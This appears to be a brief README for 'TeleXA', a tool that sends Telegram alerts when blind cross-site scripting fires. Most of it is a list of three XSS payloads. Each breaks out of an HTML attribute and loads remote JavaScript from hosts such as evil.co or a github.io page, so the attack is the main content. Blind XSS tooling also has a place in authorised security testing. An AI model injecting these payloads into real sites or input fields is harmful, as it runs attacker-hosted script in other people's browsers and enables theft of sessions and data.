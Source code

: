 # TeleXA
Telegram Blind XSS Alert

# Payloads
```"><script src="http://evil.co/telexa.js"></script>```

```"><script src=http://user.github.io/txa.js></script>```

```"><script>$.getScript("//evil.co/txa.js")</script>```

